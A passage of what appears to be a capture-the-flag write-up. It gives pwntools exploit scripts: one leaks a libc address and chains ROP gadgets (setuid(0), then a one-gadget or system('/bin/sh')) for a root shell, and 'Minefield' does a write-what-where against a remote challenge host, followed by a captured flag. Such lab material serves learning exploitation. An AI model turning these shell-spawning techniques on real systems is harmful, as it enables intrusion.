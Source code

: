 ```python
p.recvline()

leak = u64(p.recvline().strip().ljust(8, b"\x00"))
log.info(f"Leaked LIBC address, puts: {hex(leak)}")

libc.address = leak - libc.symbols['exit']
log.info(f"LIBC base @ {hex(libc.address)}")

# get libc stuff
BINSH = next(libc.search(b"/bin/sh"))
SYSTEM = libc.sym["system"]
EXIT = libc.sym["exit"]

####
# Exploit
###

# setuid(0)
payload += padding + p64(POPRDI) + p64(0x0) + p64(libc.symbols['setuid']) + p64(elf.symbols['main'])
p.sendlineafter(":", "-182 -359")
p.sendlineafter(">", "3")
p.sendlineafter(">", payload)

log.info(f"POP_RDI {hex(POPRDI)}")
log.info(f"bin/sh {hex(BINSH)}")
log.info(f"system {hex(SYSTEM)}")
log.info(f"exit {hex(EXIT)}")

# One gadget not system("/bin/sh")
payload = padding +  p64(libc.address + onegadget) # p64(POPRDI) + p64(BINSH) + p64(SYSTEM) + p64(EXIT)
p.sendlineafter(":", "-182 -359")
p.sendlineafter(">", "3")
p.sendlineafter(">", payload)
p.interactive()
```

```
CHTB{1nt3g3r_0v3rfl0w_s4v3d_0ur_r3s0urc3s}
```

##

## Minefield

Solved By: bread

```python
from pwn import *

#p = process("./minefield")
p = remote('188.166.145.178', 32457)
elf = ELF("./minefield")

p.sendlineafter(">", "2")
p.sendlineafter(":", str(int("601078",16))) # where
p.sendlineafter(":", str(elf.symbols["_"])) # what
# 2 x strtoull plus *puVar1 = uVar2;  ===   # write
p.interactive()                             # flag
```
